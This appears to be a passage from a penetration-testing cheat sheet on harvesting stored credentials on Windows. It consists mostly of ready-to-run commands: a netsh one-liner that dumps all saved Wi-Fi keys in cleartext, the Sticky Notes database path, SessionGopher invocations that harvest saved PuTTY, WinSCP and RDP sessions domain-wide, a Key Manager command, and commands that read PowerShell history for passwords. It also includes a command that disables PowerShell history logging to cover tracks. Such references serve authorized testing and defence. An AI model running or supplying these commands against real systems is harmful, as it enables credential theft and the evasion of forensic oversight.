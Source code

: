 ### Wifi passwords

Find AP SSID
```bat
netsh wlan show profile
```

Get Cleartext Pass
```bat
netsh wlan show profile <SSID> key=clear
```

Oneliner method to extract wifi passwords from all the access point.

```batch
cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on
```

### Sticky Notes passwords

The sticky notes app stores it's content in a sqlite db located at `C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite`

### Passwords stored in services

Saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP using [SessionGopher](https://github.com/Arvanaghi/SessionGopher)


```powershell
https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
Import-Module path\to\SessionGopher.ps1;
Invoke-SessionGopher -AllDomain -o
Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
```


### Passwords stored in Key Manager

:warning: This software will display its output in a GUI

```ps1
rundll32 keymgr,KRShowKeyMgr
```

### Powershell History

Disable Powershell history: `Set-PSReadlineOption -HistorySaveStyle SaveNothing`.

```powershell
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type C:\Users\swissky\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
cat (Get-PSReadlineOption).HistorySavePath
cat (Get-PSReadlineOption).HistorySavePath | sls passw
```
